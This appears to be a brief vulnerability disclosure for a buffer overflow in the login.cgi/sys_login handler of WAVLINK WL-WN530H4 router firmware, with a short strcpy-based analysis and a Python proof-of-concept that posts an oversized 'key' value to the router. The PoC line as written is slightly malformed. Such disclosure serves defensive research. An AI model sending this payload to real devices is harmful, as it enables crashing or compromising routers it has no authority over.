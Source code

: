 # buff overflow

## WAVLINK_WL_WN530H4

version: 20220801

## Description:

There is a buff overflow in login.cgi/sys_login

## Source:

you may download it from : [WL-WN530H4 - WAVLINK See the world! Powered by Wavlink](https://www.wavlink.com/en_us/firmware/details/c5834c4010.html)

## Analyse:

![](5.png)

get value from key

![](6.png)

then call strcpy, cause buff overflow

## POC

```
url = "http://192.168.0.1/cgi-bin/login.cgi"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'login', 'key': + payload})
```
